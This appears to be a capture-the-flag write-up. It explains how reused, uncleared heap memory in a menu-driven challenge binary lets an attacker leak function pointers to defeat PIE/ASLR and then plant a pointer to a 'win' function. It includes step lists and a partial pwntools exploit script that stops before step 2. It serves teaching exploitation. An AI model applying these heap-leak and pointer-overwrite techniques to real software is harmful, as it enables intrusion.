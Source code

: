The vulnerability in this program is that **the memory is not cleared after allocation**.

The understanding in order to exploit this program is how heap memory is reused and not cleared by default.

> When a memory contains some data and is freed, the memory is 'freed' but the data is not cleared.
>
> Only the first 16-bytes is overwritten to contain some metadata.
> 
> The next time you allocate a memory of the same size, it will reallocate that buffer containing 16 bytes of metadata junk followed by the data that was there before.
{:.prompt-info}

### Attack 1 -- leaking function addresses

1. Add 4 dreams -- this will allocate `8 * 4 = 32` bytes of heap memory
2. Start dreaming -- this will return the 32 bytes of heap memory to the allocator
3. Take a note of 32 bytes -- this will reuse the 32 bytes of heap memory that was returned before
4. Add 16 `A`s to the note, this will fill up the metadata.
5. Print the note, this will print the 16 `A`s followed by the function pointers that are immediately after it.

In this way, we have leaked function addresses and bypassed address randomized (PIE/ASLR).

### Attach 2 -- calling our own function addresses

1. Take a note of 32 bytes -- this will allocate 32 bytes of heap memory.
2. Add 16 `A`s to the note, followed by a function address of our liking.
3. Delete the note -- this will return the 32 bytes of heap memory to the allocator
4. Alloacte space for 4 dreams, but only fill the first 2 slots in the dream array.
5. The third slot of the dream array currently contains the function address we wrote in step 2.
6. Start dreaming, this will execute our first 2 dreams, followed by our desired function address.

### Scripting the Exploit

Now, we just have to write the script to call the `dream_about_flag_real` function.

```py
from pwn import *

context.binary = elf = ELF("./challenge")
p = process("./challenge")

# step 1: leak ELF address
# step 1a: we leave some function pointer addresses on the heap
p.sendlineafter(b"> ", b"2") # dream!
p.sendlineafter(b"> ", b"1") # add a dream
p.sendlineafter(b"have? ", b"4") # 4 dreams
p.sendlineafter(b"> ", b"1") # dream about valorant
for i in range(3):
    p.sendlineafter(b"> ", b"1") # add a dream
    p.sendlineafter(b"> ", b"1") # dream about valorant
p.sendlineafter(b"> ", b"2") # start dreaming

# step 1b: we leak the function pointer address from the heap
p.sendlineafter(b"> ", b"3") # go back
p.sendlineafter(b"> ", b"1") # listen to class
p.sendlineafter(b"> ", b"1") # take down a note
p.sendlineafter(b"size: ", str(8*4).encode()) # note size: 8*4 = 32 bytes
p.sendafter(b"content: ", b"A"*16) # take down a note
p.sendlineafter(b"> ", b"3") # read a note
p.sendlineafter(b"read: ", b"0") # read a note
win = unpack(p.recvline()[25:-1], "all") + elf.sym.dream_about_flag_real - elf.sym.dream_about_valorant

# step 2: we place the win function address on the heap and trick the program to executing it
```
